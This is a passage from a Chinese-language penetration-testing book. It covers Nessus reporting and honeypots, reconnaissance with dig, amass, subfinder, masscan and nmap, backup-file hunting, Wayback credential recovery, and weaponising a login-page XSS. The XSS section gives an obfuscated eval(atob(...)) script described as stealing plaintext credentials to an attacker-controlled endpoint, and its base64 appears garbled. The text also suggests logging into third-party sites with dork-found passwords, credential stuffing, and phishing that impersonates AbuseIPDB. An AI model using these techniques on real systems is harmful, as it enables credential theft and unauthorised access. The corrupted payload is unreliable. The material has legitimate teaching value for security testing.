单击“漏洞”选项卡，我们可以查看扫描中的每个单独发现。这将显示扫描中所有主机的所有发现。


图2.38 单击“漏洞”选项卡以查看扫描中发现的所有漏洞。

要进一步调查单个漏洞，我们可以单击某个发现的名称以获取更多信息。这将显示有关漏洞、其适用的CVSS分数、发现方式以及其他有趣属性的信息。


图2.39 查看特定发现的详细信息。

要从Nessus收集并导出报告，我们可以单击屏幕右上角的“报告”按钮。这将弹出另一个窗口，我们可以在其中选择要使用的报告类型——与Greenbone扫描器一样，PDF报告适合呈现给组织内的决策者。


图2.40 扫描后使用Nessus生成报告。

这将创建一个PDF，概述扫描中的发现以及如何修复这些发现。


图2.41 从Nessus导出的PDF中的示例发现。


Nessus是我们用来跟踪组织内漏洞的绝佳工具。管理发现并修补已知弱点将显著增强网络的整体安全态势。

## 防御视角

简而言之，设备清单、定期修补以及在安装时更改默认凭据是防范此威胁最有效的控制措施。正如本章所讨论的，这些漏洞利用和攻击通常用于获得环境中的初始立足点。通过移除初始入口点来阻止此攻击链是一种有效的纵深防御策略。

漏洞扫描器对于帮助我们管理和跟踪环境中已知弱点至关重要。通过不断搜索这些弱点，我们可以减少已知攻击的暴露窗口。通过修补和修复来领先于这些漏洞，可以保护组织免受易于利用的状况的影响。

## 蜜罐

为了利用这些常见攻击为我们谋利，我们可以在网络上使用蜜罐。蜜罐的一个关键优势在于其转移和遏制攻击的能力，在攻击者到达关键系统或造成实际危害之前提醒防御者。

配置得当的蜜罐为攻击者创造了一个有吸引力的目标，使其花费时间进行攻击。这样一个理想目标的目的是将攻击者的时间和资源引向蜜罐，从而让防御者收到活跃攻击的警报。除此之外，蜜罐还可以为防御者提供充足的时间来研究攻击者的技术并制定相应的对策。这种方法允许防御者将资源集中在观察而非立即防御上，从而提供对环境中所发起的攻击的独特视角。

## OpenCanary

在本地网络上安装蜜罐可以像运行由Thinkst赞助的OpenCanary项目一样简单，它允许防御者快速搭建一个可供使用的蜜罐。该金丝雀可以部署在树莓派或小型虚拟机上，静默等待交互。该项目可从GitHub下载和部署：https://github.com/thinkst/opencanary。

一旦启动并运行，OpenCanary允许通过多种类型的警报在蜜罐被交互时通知防御者。默认情况下，存在以下警报机制：

- SMTP
- Syslog
- Slack
- Teams
- 通用Webhook

正确配置警报机制将使我们作为防御者能够快速响应威胁。

## 结论

总之，默认配置和易于猜测的凭据是当今互联网上的重大威胁。只要设备和系统以默认凭据出厂，这始终是互联网威胁行为者可以利用的风险。除了连接到互联网的设备之外，局域网上的内部设备通常基于默认配置更容易被访问。

漏洞扫描器帮助我们在威胁行为者发现已知漏洞之前搜索并找到弱点。搜索这些已知弱点可以在攻击者利用这些向量伤害组织之前枚举它们。Nuclei、Greenbone和Nessus等工具使我们能够实现这一目标。

蜜罐允许防御者扭转局面，保护其网络和系统免受威胁行为者的侵害。在内部网络上战略性地放置蜜罐，可以在威胁行为者获得初始访问权以及他们在网络上采取关键行动之前产生重大差异。

## 注释

- 1 https://wiki.ipfire.org/configuration/firewall/blockshodan
- 2 https://www.bbc.com/news/world-europe-39907965

## 参考文献

Jaiswal, Harsh, and Rahul Maini. “`CVE-2023-36934` Analysis: MOVEit Transfer SQL Injection.” ProjectDiscovery Blog, 9 July 2023, https://blog.projectdiscovery.io/moveit-transfer-sql-injection/. Accessed 29 January 2024.

# 3 Web 应用程序攻击与防御

## 引言

Web 应用程序在互联网上无处不在，在过去十年中，其普及度和功能呈爆炸式增长。任何敏锐的安全观察者都知道，功能永远是安全的天敌——作为黑客，我们可以利用应用程序中发现的这些弱点。我们的主要目标是发现并解释与这些漏洞相关的风险。

许多网站会无意中泄露有害或敏感的文档，使我们能够收集信息，用以生成针对目标的情报。这些信息涵盖范围广泛，从用户电子邮件到编码在客户端 JavaScript 中的 AWS 访问密钥。不要忽视侦察的重要性，因为每一步的枚举是区分优秀黑客与顶尖黑客的关键。侦察是唯一最重要的步骤，必须不断重新审视并持续投入，才能提供最大价值。

许多组织将其 Web 应用程序托管在非军事区（DMZ）或虚拟私有云（VPC）中。这意味着成功攻破一个面向互联网的主机，可能允许攻击者进一步访问受信任环境中的资源。对这些额外系统的访问通常会导致 VPC 的机密性遭到破坏，并有可能对组织内部进行更深层次的访问。

防御 Web 应用程序是一项艰巨的任务，因为 Web 应用程序通常需要可以从互联网访问。这提供了广阔的受攻击面，需要对其进行监控并加固以抵御利用尝试。未能妥善保护这些资产会使组织面临风险，并可能危及机密性、完整性或可用性。

## 方法论

在安全测试期间实施一种方法论，可以确保我们准确识别应用程序中的漏洞。在执行任务期间，很容易忘记应用程序的哪些区域已被访问或未被访问——方法论有助于跟踪关注领域，并保持可重复、一致的测试方法。

针对网站有多种不同类型的方法论，但黄金标准是开放 Web 应用程序安全项目（OWASP）的 Web 安全测试指南（WSTG）。WSTG 汇集了全球数百名研究人员的经验，利用他们针对最常见和最具破坏性攻击的专业知识，这些攻击会危及系统的机密性、完整性和可用性。WSTG 提供了示范性的测试说明和报告，同时为分析人员提供了清晰、简洁的测试说明，为开发人员提供了修复建议。WSTG 可在 https://owasp.org/www-project-web-security-testing-guide/ 获取。

此外，由 Dafydd Stuttard 和 Marcus Pinto 撰写的《Web 应用程序黑客手册：发现与利用安全漏洞》（第 2 版）一书，概述了现代 Web 应用程序的基础及其开发方式。本书将涵盖一些最常见的错误配置以及如何利用它们——如需几乎所有类型 Web 攻击的详细说明，请参考那本书。虽然《Web 应用程序黑客手册》最近一次修订是在 2011 年，但其中涵盖的许多基础概念在今天依然具有重要价值。理解这些关键概念对于学习并将相同步骤应用于最新的库和交互式应用程序至关重要。

```text
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;m4lwhere.org.                    IN      ANY

;; ANSWER SECTION:
m4lwhere.org.            900     IN      NS      ns1.hover.com.
m4lwhere.org.            900     IN      MX      10
mx.hover.com.cust.hostedemail.com.
m4lwhere.org.            900     IN      TXT     "abuseipdb-
verification=ExJNGjL1"
m4lwhere.org.            900     IN      A       34.226.31.104
m4lwhere.org.            900     IN      SOA     ns1.hover.com.
dnsmaster.hover.com. 1577806130 10800 3600 604800 900
m4lwhere.org.            900     IN      NS      ns2.hover.com.

;; Query time: 720 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (TCP)
;; WHEN: Wed Jul 06 11:52:00 EDT 2022
;; MSG SIZE  rcvd: 238
```

我们看到的是，该网站发布了多条记录。此外，还有一个针对 AbuseIPDB 的 `TXT` 记录，AbuseIPDB 是一个用于记录互联网上攻击的网站。这是一个看似无害的小信息的示例；然而，我们可能可以利用这些信息。想象一个场景：我们制作一封伪装成 AbuseIPDB 的钓鱼邮件，可以通知目标，他们的蜜罐违反了该平台的新服务条款——这无疑是一封能引起目标好奇心的有趣邮件。始终保持警惕，寻找将信息转化为关于目标的情报的方法。

DNS 记录的输出显示返回了多个不同的 IP 地址。务必牢记，并非所有这些 IP 都可能归目标所有，也可能只是基于 SaaS（软件即服务，可以想想 Office 365 之类的服务）或归第三方所有。直接评估 SaaS 应用提供商的安全性严格来说不在范围内，但允许进行身份验证尝试。在分析环境时，我们必须确保严格遵守范围界定。

从我们作为黑客的角度来看，我们希望尽可能多地枚举主机和主机名。这将与它们解析到的 IP 地址以及开源资源中的潜在信息相关联，以收集更多信息。以下工具用于帮助我们收集尽可能多的潜在主机名和子域，以在后续的侦察链中使用。

## DNS Dumpster

像 DNSDumpster 这样的工具可以快速轻松地查找和分析 DNS 记录。只需将域名放入搜索栏，即可显示有效的 DNS 记录及其解析结果。许多组织并不知道他们的 DNS 记录中有哪些条目，无意中泄露了敏感信息或资产。

那些已从 DNS 中删除或从未打算发布的记录，例如通过证书透明性日志暴露的记录。

```text
$ amass enum -d m4lwhere.org
m4lwhere.org (FQDN) --> ns_record --> ns1.hover.com (FQDN)
m4lwhere.org (FQDN) --> ns_record --> ns2.hover.com (FQDN)
m4lwhere.org (FQDN) --> mx_record --> mx.hover.com.cust.hostedemail.com
(FQDN)
mx.hover.com.cust.hostedemail.com (FQDN) --> a_record --> 216.40.42.4
(IPAddress)
notes.m4lwhere.org (FQDN) --> cname_record --> hosting.gitbook.io (FQDN)
webshell.m4lwhere.org (FQDN) --> a_record --> 164.90.139.235 (IPAddress)
216.40.32.0/20 (Netblock) --> contains --> 216.40.42.4 (IPAddress)
164.90.128.0/18 (Netblock) --> contains --> 164.90.139.235 (IPAddress)
15348 (ASN) --> managed_by --> TUCOWS - Tucows.com Co. (RIROrganization)
15348 (ASN) --> announces --> 216.40.32.0/20 (Netblock)
14061 (ASN) --> managed_by --> DIGITALOCEAN-A-N - DigitalOcean, LLC
(RIROrganization)
14061 (ASN) --> announces --> 164.90.128.0/18 (Netblock)
ns1.hover.com (FQDN) --> a_record --> 216.40.47.26 (IPAddress)
216.40.32.0/20 (Netblock) --> contains --> 216.40.47.26 (IPAddress)
ns2.hover.com (FQDN) --> a_record --> 64.98.148.13 (IPAddress)
64.98.148.0/24 (Netblock) --> contains --> 64.98.148.13 (IPAddress)
32491 (ASN) --> managed_by --> TUCOWS-3 - Tucows.com Co.
(RIROrganization)
32491 (ASN) --> announces --> 64.98.148.0/24 (Netblock)
```

枚举已完成。

运行几分钟后，枚举完成，我们可以看到与该域名关联的一些子域。除此之外，`amass` 工具还提供了关于 ASN（自治系统编号）的大量详细信息，这些信息可以揭示拥有和运营这些 IP 的组织。这可以揭示更多信息，供我们在后续调查中使用。

## Subfinder

`subfinder` 工具是一个基于 Go 的程序，使用被动检测源从 eTLD 枚举有效的子域。该工具速度快，通常能在十秒内完成一组枚举。Subfinder 使用其他数据源（如 VirusTotal 和 Shodan）快速收集已知的子域。该工具可以从 Project Discovery GitHub 的发布版本安装，也可以从源码构建，地址为 https://github.com/projectdiscovery/subfinder。

```text
$ subfinder -d m4lwhere.org

                    __       __
   _________  _____/ /______ / /____  _____
  / ___/ __ \/ ___/ __/ ___// __/ _ \/ ___/
 (__  ) /_/ / /  / /_/ /__/ / /_/  __/ /
/____/\____/_/   \__/\___/_/\__/\___/_/

                         projectdiscovery.io

[INF] Current subfinder version v2.6.0 (outdated)
[INF] Loading provider config from
/home/chris/.config/subfinder/provider-config.yaml
```

```text
[INF] Enumerating subdomains for m4lwhere.org
webshell.m4lwhere.org
notes.m4lwhere.org
magento.m4lwhere.org
[INF] Found 3 subdomains for m4lwhere.org in 10 seconds 338 milliseconds
```

Subfinder的强大不仅在于其速度，还在于它可以被管道化到其他工具中。当使用 `-silent` 开关时，输出将仅包含找到的子域名。这可以与ProjectDiscovery工具集中的其他工具配合使用，本书后续将对此进行更深入的探讨。

```text
$ subfinder -d m4lwhere.org -silent
notes.m4lwhere.org
magento.m4lwhere.org
webshell.m4lwhere.org
```

## 证书透明度日志

证书透明度日志是一组主机名和证书，证书颁发机构（CA）在颁发证书时必须发布这些信息。这是为了确保数字证书生态系统对整个人类互联网开放、可访问且可信——这带来的一个副产品是，我们可以借此枚举额外的子域名。`amass` 和 `subfinder` 工具会利用这些日志来帮助发现更多主机名，然而，人工分析也能揭示新的、有趣的子域名。

有几个网站可供使用，作者最喜欢的是 crt.sh 网站（[https://crt.sh](https://crt.sh)）。Censys网站（[https://censys.io](https://censys.io)）也是一个很棒的资源。

为证书添加具有内部域方案（例如 `.local`）的额外匹配标识并不罕见。许多组织利用DMZ主机，这些主机同时拥有内部和外部主机名——查看证书透明度日志可以帮助我们发现这些情报。对于证书，许多组织利用同时拥有内部和外部主机名的DMZ主机——查看证书透明度日志有助于我们发现这些情报。


**图3.4** 在crt.sh上查看证书透明度日志以帮助枚举新的子域名。

DNS是当今现代网络中的关键工具。大型组织会有非常庞大的DNS足迹，尤其是在以开发人员为主的组织中。这类公司可能会允许某些子域名在DNS中自动注册和更新，例如 `qa.m4lwhere.org`，开发人员可以在其下注册测试机器。QA和测试机器几乎总是安全性较低，并且可能泄露可供掠夺的凭据。

## 端口扫描

端口扫描是一种尝试识别哪些端口可能向互联网提供服务的技巧。很多时候，组织会在不知情或未经适当授权的情况下开放某些端口，从而无意中扩大了攻击面。端口扫描是企业网络攻击和漏洞利用尝试中常用的技术，但Web服务托管在80和443以外的端口上也非常常见。因此，我们将更深入地探讨端口扫描，并识别Web服务可能在哪些非默认端口上提供服务。

通常，这些80和443以外的Web端口意味着可能存在安全性较低甚至完全易受攻击的Web服务，这些服务可能被用来危害底层主机。例如，一名开发人员创建了一个供公众使用的Web应用程序，可能会将应用程序部署在443端口，并将来自80端口的流量重定向到443端口。然而，这位开发人员还在65001端口上托管了这个Web应用程序的调试版本——当然，没有人会考虑连接到一个位于65001端口的网站，对吧？

在我们的这个任意示例中，假设这位天真的开发人员决定记录所有已登录用户及其会话管理信息，以便于故障排除。虽然这对排查合法的会话管理问题确实很方便，但将这些数据开放给任何连接的个人（无论是否登录）很容易导致会话劫持漏洞。想象一下，把你家车库门的开启PIN码留给任何人阅读！既然我们已经有了一个场景的概念，那就让我们运用技能来识别目标上正在发生的活动。

`masscan` 和 `nmap` 是端口扫描中最常用的两个工具。可以将 `masscan` 视为尽可能快速扫描尽可能多端口的工具，而 `nmap` 则是用于确定该端口上运行服务的精确工具。在我们的工作流程中，我们将使用 `masscan` 扫描大量端口，然后使用 `nmap` 重新扫描有响应的端口，以确定可能运行的服务。

### Masscan


让我们先用`masscan`扫描所有可能的TCP端口（最多65,535个）。由于我们已经完成了DNS检查，我们可以使用`-iL`开关（可以理解为“in List”，以帮助记忆）轻松导入IP地址列表。我们还将使用`tee`命令，以便在我们的终端上显示`masscan`的活动，同时将其保存到文件中供以后使用。

```bash
$ sudo masscan -p 0-65535 --rate 1500 34.226.31.104 | tee masscan_out.txt
Starting masscan 1.3.2 (http://bit.ly/14GZzCT) at 2023-05-01 10:46:49 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 80/tcp on 34.226.31.104
Discovered open port 443/tcp on 34.226.31.104
```

凭借响应的端口列表，我们可以将其提取出来，并以一种实用的方式提供给`nmap`。对于上面的示例，只有两个响应端口，非常简单。但在有数十或数百台主机的示例中，很容易有数千个开放端口，管理起来要困难得多。GNU工具`awk`使这变得简单，允许我们创建一个以逗号分隔的已知开放端口列表，以提供给`nmap`。假设使用`tee`输出了`masscan`的活动，实现此目的的语法如下。

```bash
$ cat masscan_out.txt | awk '{print $4}' | awk -F/ '{print $1}' | sort | uniq | tr '\n' ','
```

这条`awk`命令会创建一个已发现端口的列表，对其进行排序，然后仅返回列表中的唯一端口。最后，`tr`命令将换行符（`\n`）转换为单行逗号分隔的端口号，便于直接提供给`nmap`命令。从这个唯一端口集合中，我们可以将它们传递给`nmap`，以确保我们只探测已知开放端口范围内的端口。

为了缩小响应主机的范围，我们可以执行类似的操作，只需更改`awk`提取信息的位置。我们的信息将是每行的最后一项，在`awk`中用`$NF`表示。这可以传递到另一个文件中，供后续命令引用。一个用于提取此信息的命令如下：

```bash
$ cat masscan_out.txt | awk '{print $NF}' | sort | uniq > responding_hosts.txt
34.226.31.104
```

## Nmap

现在，有了已知的响应端口列表，我们可以使用`nmap`进行服务检测。首先利用`masscan`有助于减少`nmap`所需的扫描探测次数，并加快枚举过程。要使用`nmap`进行扫描，我们将获取返回的端口列表并将其放入命令中。以下命令旨在仔细检查开放端口上可用的服务类型（`-sV`开关用于服务版本），运行一些常见的枚举脚本（`-sC`开关用于脚本），然后将扫描输出放入一组标记为`service_scans`的文件中（`-oA`开关用于输出所有类型）。

```text
sudo nmap -iL responding_hosts.txt -p 80,443 -sV -sC -oA service_scans
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 06:54 EDT
Nmap scan report for ec2-34-226-31-104.compute-1.amazonaws.com
(34.226.31.104)
Host is up (0.023s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.41
|_http-title: Did not follow redirect to https://logonportal.ml/
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: m4lwhere.org Intel
|_http-server-header: Apache/2.4.41 (Ubuntu)
| ssl-cert: Subject: commonName=m4lwhere.org
| Subject Alternative Name: DNS:m4lwhere.org
| Not valid before: 2023-03-17T16:33:41
|_Not valid after: 2023-06-15T16:33:40
|_ssl-date: TLS randomness does not represent time
Service Info: Host: logonportal.ml

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 19.53 seconds
```

仔细观察我们的输出，我们看到了什么？另一个网站要么托管在这里，要么打算重定向到一个完全不同的网站！这个`logonportal.ml`在最初的枚举中并没有被发现，它是在这些扫描中才被识别出来的。密切关注工具输出可以引导我们走向新的路径，获得以前看似不可能找到的额外信息。

## 强制浏览

强制浏览是一种用于发现网页上未列出、敏感或被遗忘的额外端点和目录的技术。这通常会导致发现可利用来攻击应用程序或组织的敏感信息、凭据或API密钥。许多开发人员也采用“通过隐匿实现安全”的方法来对待系统，这可能会让某些漏洞持续存在。

备份文件是配置错误和凭据泄露的常见来源。以 WordPress 的`config.php`文件为例，在修改生产文件时创建备份文件是一种常见（且合理）的做法。许多系统管理员会复制现有文件并将其标记为`.bak`文件，例如`config.php.bak`。然而，这些备份文件未从生产系统中删除的情况也非常普遍。需要注意的是，一个 PHP 文件在被当作 PHP 代码运行和解析时，并不会泄露敏感的 PHP 源代码。但当同一个 PHP 文件被加上`.bak`扩展名，形成`config.php.bak`文件时，PHP 代码突然就不会被执行了——因为该文件显然是一个 BAK 文件，而不是 PHP 文件（至少 Apache 是这样认为的！）。这一活动在[图 3.5](#)和[图 3.6](#)中进行了探讨，以展示对敏感信息的访问。配置文件通常包含数据库、电子邮件服务器、API 密钥，甚至用户账户的凭据。


**图 3.5** 网站在正确配置的`config.php`文件上返回空白页，这不会在屏幕上显示任何内容。


**图 3.6** 访问`config.php.bak`文件，该文件与上面相同，但扩展名不同。`.bak`扩展名不会被解释为 PHP，站点反而会提供带有凭据的源代码。

常见的可搜索备份扩展名列表如下：

1. `.bak`
2. `.old`
3. `.1`
4. `.tmp`
5. `~`（例如`config.php~`）

此外，有些备份文件是保存在 Web 目录中的整个站点的存档。下载这些存档可以获取有价值的源代码，其中包含类似的知识宝藏。其中一些扩展名如下：

1. `.zip`
2. `.gz`
3. `.7z`
4. `.tar.gz`


**图 3.8** 实际操作中利用 dork 搜索，添加`config.php.bak`会显示数千条可能包含敏感配置信息的备份文件结果。

随后，Google 返回了三千多个结果。我们可以尝试访问其中一些，以展示风险水平，并找出一些可能使用的新用户名和密码。除此之外，我们还可以根据收集到的有关环境的情报来尝试搜索新的文件名——例如，如果我们知道某个组织正在研究某个特定关键词或项目。我们可以尝试各种 dork，以将搜索范围缩小到我们感兴趣的网站上，尝试定位这些信息。


**图 3.9** 手动查看结果会显示用于访问该站点数据库的数据库名称、用户和密码。

## 互联网档案馆

互联网档案馆是识别先前可访问信息的有效工具。该组织对互联网进行索引，并在特定时间点创建页面副本，使其他人能够访问该页面的历史记录。如果某个网站泄露了信息或存在配置错误，这些信息将保持公开，互联网上的任何人都可以访问。例如，假设一个 API 密钥被放入客户端 JavaScript 中，以调用特定函数或下载数据。访问互联网档案馆的 Wayback Machine 的网址是`https://web.archive.org/`。


**图 3.10** 互联网档案馆显示作者网站 m4lwhere.org 的条目。截图底部的条形图显示该网站在 2021 年被索引。

作者亲眼见过一些配置不当的网站将 SMTP 凭据作为 JavaScript 变量用于功能的情况。然而，当网站被评估时，这些变量显然已被“清理”，显示为一串“xxx”字符。

```text
formwizard_ftp_password = "";
formwizard_ftp_port = "";
formwizard_ftp_server = "";
formwizard_ftp_user = "";
formwizard_setup = "yes";
formwizard_smtp_password = "xxx";
formwizard_smtp_server = "xxx";
formwizard_smtp_user = "xxx";
```

**图 3.11** 包含多个似乎已被移除的 SMTP 字段的客户端 JavaScript。

既然已知在某个时间点，客户端代码中可能存储了实际的 SMTP 认证材料，但现在已不存在，我们该如何尝试找出它们可能是什么呢？翻阅互联网档案馆被证明很有价值，因为在一个旧版本的网站中找到了这些凭据。回溯到大约三年，可以看到这个新版本的网站首次发布的时间，其中包含 SMTP 服务器的凭据。

```text
formwizard_ftp_password = "";
formwizard_ftp_port = "";
formwizard_ftp_server = "";
formwizard_ftp_user = "";
formwizard_setup = "yes";
formwizard_smtp_password = "...";
formwizard_smtp_server = "...";
formwizard_smtp_user = "...";
```

**图 3.12** 早期网站的 SMTP 实际登录凭据，该网站试图移除这些凭据，但在存档版本中被发现。

有了这些信息，我们可以尝试登录服务器，以配置的用户身份发送电子邮件，甚至尝试进行某种类型的撞库攻击。关注页面元数据和注释对于发现漏洞可能至关重要。

## Spiderfoot

到目前为止，本章已经涉及了大量内容，很容易让人不知所措。我们完成的测试中，大部分价值来自于能够查找和分析数据，以识别关键信息。本章前面的部分介绍了如何通过多种不同来源完成这一工作，而 Spiderfoot 工具可以帮助我们自动完成这一工作，并将有趣的项目带到前台。

Spiderfoot 是一个自动化的 OSINT 平台，它查询 200 多个不同的模块以获取信息片段，然后将找到的每个信息片段反馈到工具中。这些操作产生了“蛛网”效应，展示了每条信息如何相互关联并产生新的情报。通过这些技术可以发现许多新的、否则难以识别的信息片段。

可以通过 GitHub 仓库 [https://github.com/smicallef/spiderfoot](https://github.com/smicallef/spiderfoot) 下载并安装 Spiderfoot。可以使用最新的稳定版本，也可以直接从仓库使用开发分支进行安装。要使用 Docker 容器化版本，我们可以通过以下命令构建容器并暴露端口：

```text
docker build -t spiderfoot:latest .
docker run -it -p 5001:5001 spiderfoot:latest
```

此时，Spiderfoot 容器应该已经启动并运行。Web 应用程序将在`localhost`的 5001 端口上可用，可以访问进行分析。在本例中，它将托管在`http://localhost:5001`以供访问。

### 扫描


**图 3.13** 通过`localhost`访问 Spiderfoot。

安装并启动后，我们可以运行扫描。有几个不同的收集配置文件可供选择，这些配置改变了数据收集的方式和来源。为了减少对目标发送的活动量，我们可以为特定场景选择不同的用例。要访问此功能，我们可以单击 **New Scan** 按钮打开此界面。


**图 3.16** 查看扫描结果中的关联，将高关注度项目引起注意。

Spiderfoot 是一个很棒的工具，可以通过 OSINT 中的海量信息来收集和分类情报。利用此工具可以帮助我们显著增强和扩展测试能力，从而更快地识别更关键的信息。

## 评估潜在漏洞

评估潜在漏洞很难用文字描述，因为它依赖于一种非常实际且近乎超感知（ESP）的直觉来感受某些潜在弱点。在花足够时间评估漏洞之后，你也会学会确切感受到潜在可利用条件是如何出现的。[第 5 章](#)（漏洞识别）投入了大量篇幅探讨这一现象，以及如何获得相关的实践经验。

代码坏味（Code smells）是业内常见的术语，在软件工程中用来描述可能引发 bug 的代码集合。这些代码坏味不一定就是安全问题，而是可能引入复杂性或影响项目正常完成的 bug。从我们作为黑客的角度来看，代码坏味是一种感觉：**“我觉得这可能存在漏洞，应该仔细检查一下”**。

代码坏味的识别来自于对所使用技术的熟悉程度以及一般测试经验。没有快速调查的话，很难确定应用程序是否存在某些攻击漏洞。通常，在这类测试中，测试人员会先在整个应用程序中识别出几个代码坏味，然后再对其中的任何一个进行深入测试。一旦对应用程序完成初步侦察，就会展开更深入的调查。

在评估这些漏洞时，我们需要确保可利用的条件确实存在。虽然某样东西可能*看起来*可以被入侵，但我们需要*证明*其对受影响组件和组织的实际影响。仅仅说“我们很确定有问题，但不能”，“识别它”对付费客户几乎没有什么好处。我们所做的每一件事都需要明确其对组织的具体影响。

评估漏洞用于确定已识别的弱点能否以有利于我们目标的方式被利用。此时，我们不仅需要找出该弱点能否被攻击，还要确定它能否以能为我们的目标提供额外访问权限的方式被攻击。

例如，假设我们识别出一个网页上存在漏洞，当用户尝试登录时，页面显示没有连接数据库。


**图 3.17** 一个Web应用的截图，显示MySQL服务器未连接。这值得进一步调查吗？它如何被武器化？

这是一个漏洞，因为它泄露了关于Web应用、所用技术的信息，并且表明其他人很可能也无法登录这个资产。一个付费进行应用测试的组织肯定会对这一信息感兴趣，类似这样的Web应用很可能是老旧或被遗忘的基础设施。

再考虑一下，如果这个网站通过HTTP提供服务——大多数Web应用攻击工具会很快将其归类为高风险。然而，由于后端没有连接SQL服务器，这感觉像是可能被遗忘的资产。强烈建议移除该资产，但将其从高风险降级为中等或低风险也可能是合理的。

然而，虽然这是目标上的一个漏洞，但它极不可能为我们进一步攻击提供实际好处。如果没有数据库供登录验证，我们如何利用登录功能？能否将其武器化以获得进一步访问？当然，也许存在一种社会工程学角度，可以联系别人并声称无法登录网站，但谁会意识到被遗忘的基础设施仍在运行呢？当然，我们能对这个目标实现的技术利用非常有限，我们应该将精力集中在其他地方。

## 武器化

一旦我们识别出可以利用的漏洞，现在就需要找到一种方法，利用这个弱点创造切实的**影响**。识别漏洞只是开始。武器化过程中创造力的参与程度很高，仅仅因为大多数漏洞利用方式多种多样。

例如，让我们考虑登录页面上一个简单的XSS漏洞——即使你能弹出一个`alert()`框又怎样？这就算有害吗？


**图 3.18** 一个PHP Web应用的简单登录页面，显示对`error`参数的潜在控制。

利用这个漏洞简单得不能再简单了，只需放置一组带有JavaScript的`<script>`标签，看看它是否触发。在创建完整载荷之前，我们需要验证是否可能利用此漏洞。为此，我们将向`error`参数发送载荷`<script>alert(1)</script>`，并使用类似`http://127.0.0.1/login.php?message=%3Cscript%3Ealert(1)%3C/script%3E`的请求。请注意，此时`error`参数已进行URL编码，因为这是确保特殊字符被应用程序正确解释、而不是被浏览器解释所必需的。


# 图 3.19 使用message参数成功执行XSS

很好！根据图 3.19，看起来XSS正在正常执行。但让我们现在考虑一下我们所处的位置以及此页面上可以访问什么。检查文档对象模型（DOM）显示我们可以访问用于提交用户名和密码的表单，如图 3.20所示。如果我们同时劫持该表单，并强制它也向自己提交，会发生什么？这甚至可能吗？


# 图 3.20 识别此页面的输入字段，我们可以访问存储在这些字段中的值

为了找出答案，我们需要首先确定实现这一点所需的合法JavaScript代码。让我们打开开发者控制台（通常是F12或右键点击并选择“在控制台中打开”）。从这里，我们可以访问一个与DOM交互的JavaScript实例，如图 3.21所示。让我们尝试访问表单，看看能否从中收集信息。请密切关注字段的`id`，这是我们以编程方式访问其中存储信息的方式。例如，我们输入用户名的框具有`username`的ID。


# 图 3.21 访问页面上的交互式JavaScript控制台

打开开发者控制台后，我们可以看到可以通过控制台交互式地访问DOM。将鼠标悬停在页面的各个部分上，会显示正在使用的各个div的名称。我们可以通过用JS解析这些字段中的信息，直接访问其中的内容。一旦证明了我们可以访问数据，我们就确信能够从登录尝试中窃取信息。

让我们在不提交的情况下向这些字段中放入一些数据，然后确定如何用JavaScript检索它们。要访问字段中存储的信息，我们可以通过JavaScript获取字段的属性。例如，对于`username`字段，我们可以请求`username.value`属性，它将显示存储在用户名字段中的文本。此外，我们还可以通过请求`password`对象的`password.value`值来获取明文密码！即使密码在网页上以隐藏字符表示，我们仍然可以通过JS访问明文密码。如图3.22所示，我们可以看到存储在字段中的密码。


# 图 3.22 使用JavaScript动态访问存储在用户名和密码字段中的值。可以访问明文密码

现在我们需要一点创造力——想象一下，将XSS漏洞武器化到这样的程度：用户只需点击他们组织网站的链接，恶意JS就会在用户登录其应用程序时窃取明文凭据。相当疯狂，对吧？

这是完全可能的，因为我们可以简单地添加另一个JS操作，向我们控制的服务器发送任意的POST请求，然后继续用户正常登录的过程。从用户的角度来看，与正常登录机器没有区别。然而，从我们这边来看，我们会在服务器上收到一个POST请求，其中包含用户提交时的凭据。太酷了！

让我们继续分阶段构建我们的武器化漏洞利用。既然我们知道可以从用户名和密码字段收集数据，我们需要确保这些数据可以通过POST请求发送给我们。最简单的方法是使用AJAX（异步JavaScript和XML）。AJAX听起来复杂，但实际上比看起来简单得多——它只是异步活动，帮助我们的页面看起来更流畅，并且无需重新加载整个页面即可加载/发送请求。想象一下浏览Facebook或Reddit，每次加载一组新帖子时，整个页面不会重新加载——这是由于AJAX调用收集更多帖子的缘故。

我们可以使用下面的代码创建AJAX请求。这段代码旨在找到DOM中的`form`选择器，然后监听提交事件。在不执行默认操作的情况下，我们将让它向一个我们控制的端点发送AJAX请求。在此示例中，它将是在localhost上我们通过nc连接监听的另一个端口。

要在浏览器中执行代码，我们需要确保使用`eval`函数调用它。发起攻击时，我们使用`eval`而不是`console.log`，`eval`会将函数中的字符串作为代码执行。

```javascript
eval(atob('Y29u3C9qZgm9ybSA9IGRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoImZycm0iKTsgZm
9yb5ShZGRmdVudExp3R1bmVyKCJzdW5taXQiLCBmdW5jdGlvbihilmdVdkF5bldYdC5
wcmV2ZW50RGVmYXVsdCgpPyBXYXIgZgYID0gbmV3IFNhdmVxIGhvb3BxbXZFZXF1NOKCk7IHhoci5v
cGVuKCJHRVQiLCBCgaHR0cDovL2xvY2FsaG9zdDo4MDMgbXgLyR7dXNlcm5hbWUdFsdWV9OiR7c
GFzc3dvcmQmdFsdWV9Yck7IHhoc15zZW5kKCk7fSk7'))
```

现在让我们测试我们的漏洞利用。如果一切正常，我们会冲出受影响的错误横幅，开始使用`<script>`标记调用JavaScript，运行`atob()`函数来解码我们创建的武器化漏洞利用，然后解码后的漏洞利用会到达用户名和密码字段，当用户点击“提交”按钮时通过POST发送。图 3.24显示了我们窃取此密码的过程，相当酷，对吧？


# 图 3.24 利用消息参数中的XSS在登录页面窃取登录时的明文密码

## 利用环节

现在我们有了一个有效且高效的漏洞利用，我们必须找到发起攻击的方法。不恰当的时机可能会迅速摧毁我们到目前为止识别和武器化漏洞的工作——我们必须格外小心，不要在时机成熟之前暴露自己的底牌。

互联网上有许多不同类型的Web开发人员创建应用程序。对于许多人来说，他们手工创建应用程序，一旦能运行，就不频繁检查应用程序是否正常运行。即使没有用户报告错误，他们也可能审查错误日志。然而，根据本作者的经验，对于大多数Web开发人员来说，一旦应用程序


